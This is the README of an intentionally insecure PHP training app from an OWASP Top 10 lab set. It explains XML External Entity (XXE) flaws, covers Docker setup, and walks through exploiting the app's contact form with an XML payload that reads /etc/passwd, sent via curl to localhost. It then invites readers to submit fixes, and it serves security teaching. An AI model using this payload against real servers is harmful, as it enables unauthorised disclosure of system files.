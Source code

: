 # ViniJR Blog

<p align="center">
    <img src="images/blog-fe.png"/>
</p>

This is a simple PHP web application that contains an example of an XML External Entity (XXE) vulnerability and the main goal of this app is to describe how a malicious user could exploit it.

## Index

- [Definition](#what-is-xxe)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is XXE?

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.

The main goal of this app is to discuss how **XXE** vulnerabilities can be exploited and to encourage developers to send b3d3cLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [b3d3cLabs](https://github.com/b3d3c/b3d3cLabs), you must type the following commands to start:

```sh
cd b3d3cLabs/owasp-top10-2017/a4/vinijr-blog
```

```sh
make install
```

Then simply visit [localhost:10004][App] ! 😆

## Get to know the app ⚽️

To properly understand how this application works, you can follow these simple steps:

- Visit its homepage!
- Try sending ViniJR a message.

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Non sanitized input field allows for an attacker to retrieve sensitive information

After reviewing the inputs from the app, it is possible to identify that the section "GET IN TOUCH" allows users to send messages to the server, as shown in the following picture:

<img src="images/attack-1.png" align="center"/>

Using [Burp Suite](https://portswigger.net/burp) proxy to intercept this request (POST to contact.php) reveals that the message is being built using an XML (if you need any help setting up your proxy you should check this [guide](https://support.portswigger.net/customer/portal/articles/1783066-configuring-firefox-to-work-with-burp)):

<img src="images/attack-2.png" align="center"/>



To replicate this POST using [curl](https://curl.haxx.se/), create the following file `payload.xml`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And run:

```sh
curl -d @payload.xml localhost:10004/contact.php ; echo
```

By checking the source code of the [file](../vinijr-blog/app/contact.php), it is possible to see how this XML is loaded on the server side:

<img src="images/attack-3.png" align="center"/>

### 🔥

As no validation is being used to avoid [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) being sent to the PHP file, an attacker could create the following `evilxml.xml` to perform a XXE:

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And, as the following picture shows, it is possible to realize that the attack succeeds and sensitive information is retrieved from the server that is hosting the vulnerable app:

```sh
curl -d @evilxml.xml localhost:10004/contact.php ; echo
```

<img src="images/attack-4.png" align="center"/>


## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

* Extract data from the server through the method showed above.

## References

* Docker Install:  https://docs.docker.com/install/
* Docker Compose Install: https://docs.docker.com/compose/install/
* App: http://localhost:10004
